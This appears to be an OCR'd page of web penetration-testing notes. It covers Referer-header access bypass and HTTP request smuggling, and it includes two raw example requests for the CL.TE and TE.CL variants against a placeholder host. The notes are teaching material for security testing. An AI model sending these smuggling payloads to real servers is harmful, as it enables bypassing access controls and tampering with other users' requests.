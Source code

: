## 12.4	REFERER HEADER

- Developers will sometimes restrict access depending on the HTTP header information contained in a request. Try changing Referrer header.

# 13	HTTP REQUEST SMUGGLING

## 13.1	DESCRIPTION

- The HTTP specification provides two different ways to specify where a request ends: the Content-Length header and the Transfer-Encoding header.
- If front-end and back-end servers interpret incoming requests differently, an attacker may be able to trick the servers to "smuggle" content that normally would be blocked. Or to tamper with next request.

## 13.2	EXPLOITS

### 13.2.1	BASIC CL.TE

- First server interprets Content-Length. Second interprets Transfer-Encoding.
- Create message with smuggled part at the end. Then, add newlines and 0 at beginning to trick TE server. Update Content-Length appropriately.

```
POST / HTTP/1.1

Host: vulnerable-website.com

Content-Length: 13

Transfer-Encoding: chunked

  

0

  

SMUGGLED
```

### 13.2.2	BASIC TE.CL

- First server interprets Transfer-Encoding, Second interprets Content-Length
- Create a normal chunked message that will be smuggled. Then, craft Content-Length header to cut off before it begins. The below example cuts off a "8".

```
POST / HTTP/1.1

Host: vulnerable-website.com

Content-Length: 3

Transfer-Encoding: chunked

  

8

SMUGGLED

0
```